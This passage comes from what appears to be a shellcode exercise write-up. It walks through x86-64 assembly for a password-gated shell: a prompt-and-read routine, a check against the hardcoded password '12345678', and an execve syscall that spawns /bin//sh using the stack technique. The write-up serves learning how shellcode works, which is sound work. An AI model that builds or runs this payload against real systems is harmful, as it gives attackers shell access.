 ```asm
        syscall 
 ```
#### Password Stuff
The code for the password stuff is the same as in the [Assignment #1](Assignment01). A `“Passwd: “` prompt is shown, and a password max of 8 characters is received from the user input. This input is compared to the hardcoded password, and if equals the program continues, else, the program exits with a segmentation fault.
```asm
write_syscall: 

        mov rax, 1                              ; Syscall number for write() 
        mov rdi, r9 
        lea rsi, [rel PASSWD_PROMPT]            ; Rel addressing to prompt 
        mov rdx, 8                              ; Length of PAsswd: string 
        syscall 

read_syscall: 

        xor rax, rax                            ; Syscall number for read() 
        mov rdi, r9 
        mov rsi, [rel PASSWD_INPUT]             ; Where to store the input passwd 
        mov rdx, 8                              ; Chars to read 
        syscall 

compare_passwords: 

        mov rax, "12345678"                     ; Thgis is the password 
        lea rdi, [rel PASSWD_INPUT]             ; Compare the QWord 
        scasq 
        jne exit_program                        ; Passwords don't match, exit 
```
#### The Shell with Execve

Last step is to execute `/bin/sh`. Stack technique is used to store the string `/bin//sh` and the length of the string: 
```asm
execve_syscall: 

        ; First NULL push 
        xor rax, rax 
        push rax 

        ; push /bin//sh in reverse 
        mov rbx, 0x68732f2f6e69622f 
        push rbx 

        ; store /bin//sh address in RDI 
        mov rdi, rsp 

        ; Second NULL push 
        push rax 

        ; set RDX 
        mov rdx, rsp 

        ; Push address of /bin//sh 
        push rdi 

        ; set RSI 
        mov rsi, rsp 

        ; Call the Execve syscall 
        add rax, 59 
```